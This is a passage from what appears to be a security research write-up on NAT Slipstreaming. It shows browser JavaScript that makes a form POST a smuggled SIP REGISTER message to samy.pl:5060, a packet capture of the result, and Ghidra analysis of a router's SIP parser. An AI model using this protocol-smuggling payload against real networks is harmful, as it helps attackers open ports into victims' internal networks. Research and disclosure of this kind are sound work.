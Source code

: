 ```javascript
form.setAttribute('action', 'http://samy.pl:5060') // "http" server on SIP port 5060
form.setAttribute('enctype', 'multipart/form-data') // ensure our data doesn't get encoded

var textarea = document.createElement('textarea')
textarea.setAttribute('name', 'textname') // required
textarea.innerHTML = sipmsg
form.appendChild(textarea)
document.body.appendChild(iframe)
document.body.appendChild(form)
form.submit()
```

If we sniff, we see (parsed via [`h2b`](https://github.com/samyk/samytools/blob/master/h2b)):

```sh
$ unbuffer tcpdump -X port 5060 | h2b
POST / HTTP/1.1
Host: samy.pl:5060
Connection: keep-alive
Content-Length: 191
Cache-Control: max-age=0
Origin: http://samy.pl
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryhcoAd2iSAx3TJA7A
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://samy.pl/o/sp.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundaryhcoAd2iSAx3TJA7A
Content-Disposition: form-data; name="textname"

REGISTER sip:samy.pl;transport=TCP SIP/2.0
Contact: <sip:samy@192.168.0.109:1234;transport=TCP>


------WebKitFormBoundaryhcoAd2iSAx3TJA7A--
```

However, this doesn't open the port, nor is the IP rewritten which we'd expect (more on this later), so we must be missing something.

### Continue Reversing Kernel Object Further

Let's keep digging in the kernel object. In the diassembly, we see the "SIP/2.0" tag from a SIP packet, so it's likely parsing here (which "decode" sounds like).

![Ghidra sip_decode](img/ghidrabne2.png)

Ah, this is why we fail. Looks like it's running strncasecmp on [INVITE](https://tools.ietf.org/html/rfc2543#section-4.2.1) (similar parsing on REGISTER) -- matching (case-insensitive, which is interesting as SIP INVITEs are upper case) the word "INVITE" at the beginning of the packet and **b**ranches if **n**ot **e**qual (ARM assembly `bne`) to 0, so if the words do match, the lexicographical order will be 0 and we'll continue to `ct_sip_get_header` which sounds fun, and seems to bail otherwise.
